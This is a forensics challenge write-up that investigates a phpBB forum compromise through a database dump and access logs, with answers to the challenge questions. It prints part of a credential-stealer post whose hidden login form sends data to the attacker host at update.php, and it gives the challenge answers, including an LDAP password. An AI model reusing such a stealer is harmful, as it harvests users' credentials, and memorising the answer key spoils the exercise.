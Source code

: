 # Bumblebee

#sqlite #access.log

## Speech
```
An external contractor has accessed the internal forum here at Forela via the Guest Wi-Fi, and they appear to have stolen credentials for the administrative user! We have attached some logs from the forum and a full database dump in sqlite3 format to help you in your investigation.
```

## Analysis

We have logs and sqlite, I'll begin with sqlite maybe I can find username/login log/ip info on the attacker before diving in the logs.

### phpbb.sqlite3
1. I open the file with sqlitebrowser, then I go in *Browse Data" and i'll begin with the table phpbb_users
    - Here we go :
    ![PHPBB users](../../img/bumblebee/01_phpbb_users.png)
    - We have 6 interesting users (the first one is at the top so we don't see it on this screenshot and is admin), for the 5 others the two most interesting are *apoole* and apoole1*, one of those is our attacker because they both have *contractor.net* for email domain, so it's they are our contractor :)
    - The ip is also interesting *10.10.0.78*
    - When we look at the *user_lastvisit* and *user_lastpost_time* we see that *apoole* has 0 as last visit so probably never visit (I think phpbb put 0 for never visited), so the attacker is probably *apoole1*
2. Because *Apoole1* is our principal suspect and he post something let's take a look at his post, go in the table *phpbb_posts*
    - The *post_id* 9 is done by *apoole1* (same IP)
    - Here is the post of the attacker : (I get rid of most of the code, I keep the script and the form, to see where the data are sent), this script is a stealer, this post send data to the update.php of the attacker (the ip of the attacker)
    ```
    <div>
    <script type="text/javascript">
        function sethidden() {
        const d = new Date();
        d.setTime(d.getTime() + (24 * 60 * 60 * 1000));
        let expires = "expires=" + d.toUTCString();
        document.cookie = "phpbb_token=1;" + expires + ";";
        var modal = document.getElementById('zbzbz1234');
        modal.classList.add("hidden");
        }
        document.addEventListener("DOMContentLoaded", function(event) {
        let cookieexists = false;
        let name = "phpbb_token=";
        let cookies = decodeURIComponent(document.cookie);
        let ca = cookies.split(';');
        for (let i = 0; i < ca.length; i++) {
            let c = ca[i];
            while (c.charAt(0) == ' ') {
            c = c.substring(1);
            }
            if (c.indexOf(name) == 0) {
            cookieexists = true;
            }
        }
        if (cookieexists) {
            return;
        }
        var modal = document.getElementById('zbzbz1234');
        modal.classList.remove("hidden");
        });
    </script>
    <form action="http://10.10.0.78/update.php" method="post" id="login" data-focus="username" target="hiddenframe">
    ```
3. In phpbb_config we can see the *auth_method* is *db_or_ldap* so users can connect via LDAP, still in the *phpbb_config** we have LDAP credentials!
4. In the *phpbb_log* table
    - we have interesting logs :
    ![phpbb logs](../../img/bumblebee/02_phpbb_logs.png)
    - The attacker (his ip) added the account *apoole* to the administratos group and he login as admin (at 26/04/2023 10:53:12, the time in the db is an epoch)
    - On the last line we see he made a backup of the DB
5. In the *phpbb_sessions* table
   - We have the session of the administrator
   ![admin session](../../img/bumblebee/03_admin_session.png)
6. Looks like they are nothing more in this DB

### Access.log
1. Not a lot to get in this file, a lot of noise, I filtered some little things but we don't learn much, some of my filter was : `cat -n access.log | grep 10.10.0.78 | grep POST` (To see what the attacker send to the website), `cat -n access.log | grep 10.10.0.78 | grep login` (to see the login)
2. At the end we can see the download of the DB backup (line 695) :
    - `10.10.0.78 - - [26/Apr/2023:12:01:38 +0100] "GET /store/backup_1682506471_dcsr71p7fyijoyq8.sql.gz HTTP/1.1" 200 34707 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0"`

## Questions
1. What was the username of the external contractor?
    - apoole1 (cf. Analysis>phpbb.sqlite3>1)
2. What IP address did the contractor use to create their account?
    - 10.10.0.78 (cf. Analysis>phpbb.sqlite3>1)
3. What is the post_id of the malicious post that the contractor made?
    - 9 (cf. Analysis>phpbb.sqlite3>2)
4. What is the full URI that the credential stealer sends its data to?
    - http://10.10.0.78/update.php (cf. Analysis>phpbb.sqlite3>2)
5. When did the contractor log into the forum as the administrator? (UTC)
    - 26/04/2023 10:53:12 (cf. Analysis>phpbb.sqlite3>4)
6. In the forum there are plaintext credentials for the LDAP connection, what is the password?
    - Passw0rd1 (cf. Analysis>phpbb.sqlite3>3)
7. What is the user agent of the Administrator user?
    - Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36 (cf. Analysis>phpbb.sqlite3>5)
8. What time did the contractor add themselves to the Administrator group? (UTC)
    - 26/04/2023 10:53:51 (cf. Analysis>phpbb.sqlite3>4)
9. What time did the contractor download the database backup? (UTC)
    - 26/04/2023 11:01:38 (cf. Analysis>access.log>2)
10. What was the size in bytes of the database backup as stated by access.log?
    - 34707 (cf. Analysis>access.log>2)